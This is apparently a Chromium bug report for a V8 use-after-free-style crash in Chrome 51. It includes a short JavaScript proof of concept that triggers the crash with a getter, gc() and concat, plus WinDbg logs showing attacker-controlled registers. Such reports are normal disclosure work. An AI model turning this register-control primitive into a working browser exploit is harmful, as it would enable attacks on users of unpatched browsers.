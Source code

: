 <b>VULNERABILITY DETAILS</b>.
i think that bug is in "gc();" methods.

I was try to detail analysis this case, but already have (fixed or wontfix) issue on crbug.com. :-(

i just try to control regiters.

i attached to more detail V8 Crash logs in zip file. (change "RIP" register in V8 5.2.0)

<b>VERSION</b>
Chrome Version: 51.0.2704.84 m + stable 32/64bit
Operating System: Windows 10 Pro 64bit

<b>REPRODUCTION CASE</b>
when reproduce this case, use "--expose-gc" flags in V8, Chrome.
===========================================================
var o0 = [];
var o1 = [];
var o2 = [];

o1.__defineGetter__(0, function() {
	o0.shift();
	gc(); //crash here.
	o0.concat(o1);
});

o0.length = 24;
o1[0];
===========================================================

<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: V8 in renderer tab
Crash State:
============================================= 32bit case =================================================================
(115c.19f0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for c:\Program Files (x86)\Google\Chrome\Application\51.0.2704.84\chrome_child.dll - 
chrome_child!ChromeMain+0x4ad8f0:
65dc157d 0fb64007        movzx   eax,byte ptr [eax+7]       ds:002b:4646464d=??
3:033:x86> r
eax=46464646 ebx=00636130 ecx=37d09155 edx=00636130 esi=00668d88 edi=00000000
    ^^^^^^^^ ; o0.push(0x23232323); controll eax register.
eip=65dc157d esp=0018b0b0 ebp=0018b0cc iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
chrome_child!ChromeMain+0x4ad8f0:
65dc157d 0fb64007        movzx   eax,byte ptr [eax+7]       ds:002b:4646464d=??
3:033:x86> kbn
 # ChildEBP RetAddr  Args to Child              
WARNING: Stack unwind information not available. Following frames may be wrong.
00 0018b0cc 65dc13e6 37d09155 00000001 00668d8c chrome_child!ChromeMain+0x4ad8f0
01 0018b0ec 667ffe6f 0018b1f8 00668d88 00000001 chrome_child!ChromeMain+0x4ad759
02 0018b12c 667f7fe3 0018b1f8 0018b170 65dc1091 chrome_child!GetHandleVerifier+0x80c3ed
03 0018b138 65dc1091 0018b16c 0018b1f8 00636120 chrome_child!GetHandleVerifier+0x804561
04 0018b170 65dc0fb7 00000006 0018b1f8 00000006 chrome_child!ChromeMain+0x4ad404
05 0018b1b8 3270a7fe 00000006 0018b1f8 00636120 chrome_child!ChromeMain+0x4ad32a
06 0018b1dc 327391b9 0000000a 00000008 00000006 0x3270a7fe
07 0018b208 3273283e 0781edb1 0781edd1 327327a1 0x327391b9
08 0018b220 32721943 00000000 0018b774 00000000 0x3273283e
09 0018b24c 65b9ed12 3a90818d 0781edd1 0781edb1 0x32721943
0a 0018b2a0 65b9ec2c 00000000 00668d80 00668d78 chrome_child!ChromeMain+0x28b085
0b 0018b2e0 65bc9d36 00668d80 00668d78 00000000 chrome_child!ChromeMain+0x28af9f
0c 0018b300 65bb8692 00668d78 00668d80 0018b3c4 chrome_child!ChromeMain+0x2b60a9
0d 0018b380 65b7e3d5 00636120 00000000 00000001 chrome_child!ChromeMain+0x2a4a05
0e 0018b3b0 667d60ef 00000001 0781edb1 00636120 chrome_child!ChromeMain+0x26a748
0f 0018b410 667d623e 00668d78 0018b614 00668d78 chrome_child!GetHandleVerifier+0x7e266d
10 0018b5c4 667d74c1 00668d78 3a96c6d9 00668d50 chrome_child!GetHandleVerifier+0x7e27bc
11 0018b67c 65c47e39 00668d50 00636120 00000002 chrome_child!GetHandleVerifier+0x7e3a3f
12 0018b6c8 65c47b91 00000002 0018b740 00000002 chrome_child!ChromeMain+0x3341ac
13 0018b710 3270a7fe 00000002 0018b740 00636120 chrome_child!ChromeMain+0x333f04
....
[skip, skip, skip]
....
76 0018dc2c 3273c619 0781edb1 3a96ce6d 3a90818d 0x3270a7fe
77 0018dc48 3273283e 07808145 24d29661 327327a1 0x3273c619
78 0018dc60 32721943 00000000 00000000 00000002 0x3273283e
79 0018dc8c 65b9ed12 3a90818d 24d29661 37d08145 0x32721943
7a 0018dce0 65b9ec2c 00000000 00668af0 00668b18 chrome_child!ChromeMain+0x28b085
7b 0018dd20 65c1c8f2 00668af0 00668b18 00000000 chrome_child!ChromeMain+0x28af9f
7c 0018dd88 65c1c488 0018ddc4 00668b10 48c21948 chrome_child!ChromeMain+0x308c65
7d 0018ddf0 65c1abc2 00668af0 035a2158 48c21948 chrome_child!ChromeMain+0x3087fb
7e 0018de84 65b6bb24 0018deac 00668ab8 0018e00c chrome_child!ChromeMain+0x306f35
7f 0018ded0 65b6ba02 0018df0c 0018e00c 00000001 chrome_child!ChromeMain+0x257e97
80 0018defc 65c9a76e 0018e00c 00000001 00000000 chrome_child!ChromeMain+0x257d75
81 0018df80 65c962f3 0018e00c 0018dfa8 3ce2f410 chrome_child!ChromeMain+0x386ae1
82 0018e0c0 65c95acd 0018e284 00000000 3ce2f410 chrome_child!ChromeMain+0x382666
83 0018e1f0 65c959b8 3ce2ff10 0018e284 59340120 chrome_child!ChromeMain+0x381e40
84 0018e230 65c72603 035a2958 0018e284 00000000 chrome_child!ChromeMain+0x381d2b
85 0018e734 65c71e2c 00000000 59219160 59208958 chrome_child!ChromeMain+0x35e976
86 0018e838 65a7172a 0018e908 006ad688 68337a6b chrome_child!ChromeMain+0x35e19f
87 0018e850 65a6cb0e 59208b38 00000000 59208b38 chrome_child!ChromeMain+0x15da9d
88 0018e864 6593fc7b 006ad688 005cf3f8 005f0c40 chrome_child!ChromeMain+0x158e81
89 0018e8cc 659c1950 67a95010 0018e908 005cf3f8 chrome_child!ChromeMain+0x2bfee
8a 0018e97c 659c0b5a 034e3800 0018ea58 005eb598 chrome_child!ChromeMain+0xadcc3
8b 0018eaa8 659c0a2b 00000000 00000000 00000000 chrome_child!ChromeMain+0xacecd
8c 0018eabc 659c09ea 659c0a34 005f0d10 005cf3f8 chrome_child!ChromeMain+0xacd9e
8d 0018eae4 6593fc7b 005eb578 68337a60 00680ec8 chrome_child!ChromeMain+0xacd5d
8e 0018eb48 6593f8c7 67a5e714 0018f6d8 ffffffff chrome_child!ChromeMain+0x2bfee
8f 0018f6b4 6593f555 0018f6d8 005fe900 005fe8f0 chrome_child!ChromeMain+0x2bc3a
90 0018f7c0 65941d40 0018f828 005d4b60 67a5c4a0 chrome_child!ChromeMain+0x2b8c8
91 0018f7ec 6593ef65 005d4b60 00000000 67a91b20 chrome_child!ChromeMain+0x2e0b3
92 0018f818 6593eea6 67a5c4a0 00000000 005d4b60 chrome_child!ChromeMain+0x2b2d8
93 0018f844 65963cc0 005eb200 00000003 005cf820 chrome_child!ChromeMain+0x2b219
94 0018f93c 6593204d 0018f974 005f7020 00000000 chrome_child!ChromeMain+0x50033
95 0018f950 6592dfb9 0018f988 0018f974 0018f9cc chrome_child!ChromeMain+0x1e3c0
96 0018f9a4 65913f9c 00000000 005cb5d8 0018f9f8 chrome_child!ChromeMain+0x1a32c
97 0018f9b4 65913cee 0018f9e8 00e21c7f 005ca498 chrome_child!ChromeMain+0x30f
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for chrome.exe - 
98 0018f9f8 00e1fcd7 00df0000 0018fa14 00df0000 chrome_child!ChromeMain+0x61
99 0018fa90 00e1f3b7 00df0000 00000000 00eae418 chrome!GetUploadedReportsImpl+0xad8
9a 0018fbc8 00e49976 00df0000 00000000 005b1db0 chrome!GetUploadedReportsImpl+0x1b8
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\WINDOWS\SysWOW64\KERNEL32.DLL - 
9b 0018fc14 746638f4 003d7000 746638d0 74731201 chrome!IsSandboxedProcess+0x2167d
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for ntdll.dll - 
9c 0018fc28 77565de3 003d7000 a5655cff 00000000 KERNEL32!BaseThreadInitThunk+0x24
9d 0018fc70 77565dae ffffffff 7758b7c6 00000000 ntdll_77500000!RtlUnicodeStringToInteger+0x253
9e 0018fc80 00000000 00e499ef 003d7000 00000000 ntdll_77500000!RtlUnicodeStringToInteger+0x21e

=================================== 64 bit case =======================================================
(1f24.1868): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for c:\Program Files (x86)\Google\Chrome\Application\51.0.2704.84\chrome_child.dll - 
chrome_child!GetHandleVerifier+0x29b644:
00007ffb`2bc20994 0fb64207        movzx   eax,byte ptr [rdx+7] ds:20150303`00000007=??
3:033> r
rax=000001f137d56660 rbx=2015030300000000 rcx=000001548e2062b1
rdx=2015030300000000 rsi=000001548e2062b1 rdi=0000000020150302 ; rdx controll, high 4 address of rdx.
rip=00007ffb2bc20994 rsp=00000024559d6ca0 rbp=0000000000000001
 r8=00000000fffffff8  r9=0000000000000000 r10=000001548e200000
r11=000001f137cf5be0 r12=000001f137d1f170 r13=000001548e2062a9
r14=00000024559d6e80 r15=00000000fffffff8
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
chrome_child!GetHandleVerifier+0x29b644:
00007ffb`2bc20994 0fb64207        movzx   eax,byte ptr [rdx+7] ds:20150303`00000007=??
3:033> kbn
 # RetAddr           : Args to Child                                                           : Call Site
00 00007ffb`2c809f4d : 20150303`00000000 20150303`00000000 20150303`00000000 00000024`559d6ea0 : chrome_child!GetHandleVerifier+0x29b644
01 00007ffb`2c7a6424 : 000001f1`37d58af0 000001f1`37d1f170 000001f1`37d1f150 00007ffb`2db347b4 : chrome_child!GetHandleVerifier+0xe84bfd
02 00007ffb`2c7a57ea : 000001f1`37d1f170 00000024`559d6fe8 000001f1`37d1f150 00000000`00000100 : chrome_child!GetHandleVerifier+0xe210d4
03 00007ffb`2c7967ca : 00000024`559d6e80 00000024`559d6fe8 000001f1`37d5a530 00000024`559d6ef0 : chrome_child!GetHandleVerifier+0xe2049a
04 00007ffb`2c741e09 : 00000024`559d6fe8 00007ffb`2ed71678 00000000`00000004 00000024`559d6e00 : chrome_child!GetHandleVerifier+0xe1147a
05 00007ffb`2c741c99 : 000001f1`37d0d780 00007ffb`2b9b525e 00000000`00000000 00000000`00000000 : chrome_child!GetHandleVerifier+0xdbcab9
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for ntdll.dll - 
06 00000335`5ff092ab : 000002d7`4e1af8e1 000002d7`4e1b1e09 000001e1`8cb30db9 00000000`00000006 : chrome_child!GetHandleVerifier+0xdbc949
07 000002d7`4e1af8e1 : 000002d7`4e1b1e09 000001e1`8cb30db9 00000000`00000006 00000024`559d6f88 : 0x00000335`5ff092ab
08 000002d7`4e1b1e09 : 000001e1`8cb30db9 00000000`00000006 00000024`559d6f88 00000000`00000000 : 0x000002d7`4e1af8e1
09 000001e1`8cb30db9 : 00000000`00000006 00000024`559d6f88 00000000`00000000 3e24bdbf`45544690 : 0x000002d7`4e1b1e09
0a 00000000`00000006 : 00000024`559d6f88 00000000`00000000 3e24bdbf`45544690 00000335`5ff091e1 : 0x000001e1`8cb30db9
0b 00000024`559d6f88 : 00000000`00000000 3e24bdbf`45544690 00000335`5ff091e1 00000024`559d6f60 : 0x6
0c 00000000`00000000 : 3e24bdbf`45544690 00000335`5ff091e1 00000024`559d6f60 00000003`00000000 : 0x00000024`559d6f88
